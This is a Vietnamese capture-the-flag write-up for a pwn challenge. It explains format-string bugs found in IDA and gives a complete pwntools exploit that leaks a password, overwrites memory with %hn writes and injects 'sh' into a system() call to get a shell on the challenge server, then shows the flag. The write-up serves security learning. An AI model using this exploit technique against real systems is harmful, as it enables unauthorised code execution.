






# 001

**Checksec**



Chúng ta hãy phân tích chall này trong ida nhé

## IDA



Hàm main này sẽ gọi hàm `gen_passwd()` để tạo `backup_passwd` rồi cho chúng ta nhập `name` và `passwd`, sau đó so sánh `backup_passwd` với `passwd`, nếu đúng thì sẽ vào hàm `write_passwd`, ở đây ta thấy có một lỗi `fmt`, để xem chút nữa ta có khai thác được gì không.



Đây là hàm `gen_passwd`, ta thấy `v4 = getpid()`, như vậy khi remote với sever, ta không thể nào đoán được password được gen ra là gì.

Vậy bây giờ ta sẽ debug bằng `gdb` và dừng lại ngay trước khi chương trình thực thi ` printf(name);`:



Oh, vậy địa chỉ để lưu `backup_passwd` đang nằm trên stack, ta có thể lấy được password đúng bằng `%7$s`

Okey giờ ta đã có thể leak được password đúng, giờ chúng ta sẽ xem hàm `write_passwd()` làm gì:



ở đây ta lại có một lỗi `fmt` của biến `passwd` nữa, sau đó chương trình sẽ copy giá trị biến `backup_passwd` vào `cmd`, rồi thực thi lệnh `system(cmd)`

Vì `echo "";sh;"" > admin` sẽ giúp ta bypass và tạo được shell, vậy nên ý tưởng của mình là sẽ dùng lỗi fmt của biến `passwd` để thay đổi giá trị giá trị của biến `backup_passwd`. Vì vậy để ghi nhanh thì ta sẽ ghi 2 byte 1 lần,


Quay về lỗi fmt `name`, mình dùng `%7$p`để leak được địa chỉ của `backup_passwd`

Okey giờ ta có tất cả những thứ cần r, viết solve script thôi:

## Solve script

```python
#!/usr/bin/python3

from pwn import *
from ctypes import*


exe = ELF("./001_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")


context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+163
        b*write_passwd+72
        c
        ''')
        sleep(1)


if args.REMOTE:
    p = remote('67.223.119.69',5007)
else:
    p = process([exe.path])

GDB()

sa("Account: ", b'%7$s%7$p')
p.recvuntil("Account: ")
leak_password = p.recvuntil(b'0x',drop=True)
leak_address = int(p.recvline()[:-1],16)

info("leak password:" + str(leak_password))
info("leak addr:" + hex(leak_address))

payload = leak_password  
payload = payload.ljust(0x10)
payload += f'%{0x223b - 0x10}c%{43}$hn%{0x3b22 -0x223b}c%{41}$hn%{0x6873-0x3b22}c%{42}$hn'.encode()
payload = payload.ljust(0x38)
payload += p64(leak_address)
payload += p64(leak_address+2)
payload += p64(leak_address +4)
sla("Password: ",payload)

p.interactive()


```



YAY!!!!!!

Vậy là ta đã lấy được flag

**FLAG**: `KCSC{0952629aed94e6960739df988da932115accc6d1d951496923819fe2263bfab5}`